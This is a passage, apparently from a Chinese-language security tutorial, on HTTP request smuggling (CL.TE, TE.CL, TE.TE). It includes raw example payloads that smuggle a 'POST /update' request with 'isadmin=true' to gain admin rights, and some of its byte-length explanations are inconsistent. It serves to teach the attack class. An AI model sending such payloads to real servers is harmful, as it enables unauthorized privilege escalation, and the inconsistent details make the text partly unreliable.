     0 # 后端遇到这个0，认为第一个请求的chunked body结束

    POST /update HTTP/1.1 # 这部分是走私的请求
    Host: example.com
    Content-Length: 13 # 或者适当的长度
    Content-Type: application/x-www-form-urlencoded

    isadmin=true
    ```
    **注意:** 示例中的 `Content-Length: 130` 需要精确计算从 `0\r\n\r\nPOST /update...` 到 `isadmin=true` 的实际字节数。 `0` 后面必须有 `\r\n\r\n`。 走私请求 `POST /update...` 之前也需要 `\r\n`。

### TE.CL: 前端认 TE，后端认 CL (Frontend uses Transfer-Encoding, Backend uses Content-Length)

*   **原理:**
    *   前端服务器优先使用 `Transfer-Encoding: chunked` 头部。
    *   后端服务器优先（或仅）使用 `Content-Length` 头部。
*   **利用方法:** 攻击者发送一个同时包含 `Content-Length` 和 `Transfer-Encoding: chunked` 的请求。
    *   `Transfer-Encoding: chunked` 用于让前端服务器处理整个（包括走私部分的）分块消息。
    *   第一个分块的大小（十六进制）被设置为包含“主”请求数据加上走私请求的部分或全部。
    *   `Content-Length` 的值被设置得较小，只覆盖“主”请求的初始部分。
    *   前端服务器根据分块编码处理整个请求直到最后的 `0` 块。
    *   后端服务器忽略 `Transfer-Encoding`，根据 `Content-Length` 读取请求体。它只读取 `Content-Length` 指定的字节数作为第一个请求，剩余的数据（即走私的请求）则被保留并附加到下一个请求。
*   **示例 Payload:**
    ```
    POST / HTTP/1.1
    Host: example.com
    Content-Length: 4 # 后端认为请求体只有4字节 (例如 "78\r\n")
    Transfer-Encoding: chunked

    78 # 十六进制，表示120字节。这个块包含下面的走私请求
    POST /update HTTP/1.1
    Host: example.com
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 15 # 走私请求自身的Content-Length

    isadmin=true
    0 # 分块结束
    ```
    **注意:** `Content-Length: 4` 意味着后端只读取 `78\r\n` 这4个字节作为第一个请求体。`78` 之后的数据 (`POST /update...isadmin=true\r\n`) 会被前端作为第一个分块的内容发送给后端，但后端因为 CL 的限制只读取了开头。当这个分块数据被完全发送后，`isadmin=true` 之后到 `0` 之前的部分，会被后端视为下一个请求的开始。更经典的 TE.CL 是让 `Content-Length` 只覆盖第一个分块声明 (如 `78\r\n`)，这样其后的数据 `POST /update ...` 会成为被走私的部分。

### TE.TE: 前后端均认 TE，利用混淆 (Both use Transfer-Encoding, exploiting obfuscation)

*   **原理:** 前端和后端服务器都声称支持 `Transfer-Encoding`，但它们可能对畸形或多个 `Transfer-Encoding` 头部的处理方式不同。攻击者通过构造一个让其中一个服务器忽略（或错误处理）`Transfer-Encoding` 头部，使其回退到使用 `Content-Length` (从而变成 CL.TE 或 TE.CL)，或者对分块的解析产生差异。
*   **利用方法:**
    *   发送多个 `Transfer-Encoding` 头部，其中一个可能是畸形的。
    *   例如，一个服务器可能处理第一个 `Transfer-Encoding: chunked`，而另一个服务器可能因为第二个畸形的 `Transfer-Encoding: chunked1` 而产生混乱，或选择性忽略。
*   **示例 Payload:**
    ```
    POST / HTTP/1.1
    Host: example.com
    Content-length: 4 # 后备的CL，如果一个服务器忽略TE
    Transfer-Encoding: chunked
    Transfer-Encoding: chunked1 # 可能是畸形的或导致一个服务器忽略TE
